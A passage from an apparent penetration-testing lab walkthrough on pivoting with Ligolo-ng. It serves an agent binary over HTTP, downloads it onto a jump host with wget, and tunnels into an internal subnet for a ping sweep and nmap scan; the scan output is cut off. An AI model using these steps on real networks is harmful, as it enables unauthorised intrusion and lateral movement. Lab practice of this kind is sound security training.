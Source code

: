 Upload using a quick HTTP server:

```bash
cd bin
python3 -m http.server 80

# On the jump host
wget http://10.10.15.111/agent
chmod +x agent
```

---

### Running Ligolo-ng and Setting the First Tunnel

```bash
# On attack box
./ligolo-proxy -selfcert

# On pivot host
./ligolo-agent -connect 10.10.15.111:11601 -ignore-cert
```

Then connect inside Ligolo’s interactive console:

```bash
ligolo-ng » session
ligolo-ng » interface_create --name lig2
[Agent: ...] » tunnel_start --tun lig2
[Agent: ...] » route add 172.16.5.0/24

# Add route locally
sudo ip route add 172.16.5.0/24 dev lig2
```

Now you’ve got stable access to the internal subnet.

---

### Internal Enumeration

Quick ping sweep:

```bash
for i in $(seq 1 254); do ( ping -c1 -W1 172.16.5.$i >/dev/null && echo "up: 172.16.5.$i" ) & done; wait
up: 172.16.5.15
up: 172.16.5.35
```

Scan the live host:

```bash
sudo nmap -sT -sV 172.16.5.35
```

Output (trimmed):
